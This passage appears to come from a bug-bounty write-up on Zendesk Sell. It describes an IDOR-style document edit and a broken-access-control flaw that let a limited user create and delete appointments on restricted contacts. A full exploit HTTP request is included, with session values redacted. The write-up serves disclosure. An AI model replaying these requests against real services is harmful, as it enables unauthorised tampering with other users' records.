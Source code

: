 - Editing documents on contacts
 
```http
PUT /apis/uploader/api/v2/uploads/<upload_id>.json 
```
 
So we were able to affect the integrity of the documents as we were able to edit the names of documents and even change their extensions.


---

## Privilege escalations leads to add/remove appointments on restricted contacts.

Since zendesk allows users to collaborate on various functionalities in the app. This was accomplished by assigning different roles to different functions in the app. One role in the app was defined as *limitted permission user*, who has access to limited features in the app. The following user was *unable to create the contacts*, nor could he add any appointments to them.

{{1}}

But we were able to find an API path with *broken access controls*  that led the **limited user** to create and remove appointments with the *contacts* even though this functionality was restricted from the *said role*.

Thus, the limited user was successfully able to exploit this *API request* to create appointments with the contacts just by using their **contact id**.

```http
POST /apis/appointments/api/v1/appointments.json HTTP/1.1
Host: app.futuresimple.com
Connection: close
Content-Length: 255
x-interaction-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
Origin: https://app.futuresimple.com
x-parent-operation-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
x-csrf-token-generated-at: 1597815645
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
x-csrf-token-signature: <VALUE>
Referer: https://app.futuresimple.com/crm/contacts/288149956
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie:<VALUE>

{"appointment":{"contact_id":"<contact id>","start_at":"2020-08-17T00:00:00.000Z","end_at":"2020-08-17T23:59:59.999Z","is_public":false,"send_updates":true,"name":"New Appointment on Sunda","location":"New York","description":"","all_day":true}
```

The limited user was able to cancel/delete all of the appointments via the below `http request` by changing the **appointment id**.
